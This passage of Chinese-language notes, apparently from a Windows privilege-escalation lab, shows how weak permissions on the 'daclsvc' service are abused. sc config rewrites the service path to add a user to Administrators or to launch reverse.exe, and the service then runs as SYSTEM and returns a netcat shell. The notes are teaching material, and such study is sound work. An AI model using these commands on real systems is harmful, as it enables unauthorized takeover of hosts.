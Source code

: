 




### 查看 daclsvc 資訊
```
sc qc daclsvc
```



```

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

```
* BINARY_PATH_NAME 將被我們修改

### 兩個常用的提權payload

```
#user用戶 加到 administrators組
sc config daclsvc binPath=“net localgroup administrators user /add”


＿
#執行 reverse.exe 這個比較方便直接 system 權限
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""

```

### 兩個都可以開啟服務


```
net start daclsvc
sc start daclsvc
```

* 此時看netcat 的shell 是system 就很棒。





## 服務漏洞 - 不帶引號的服務路徑提權


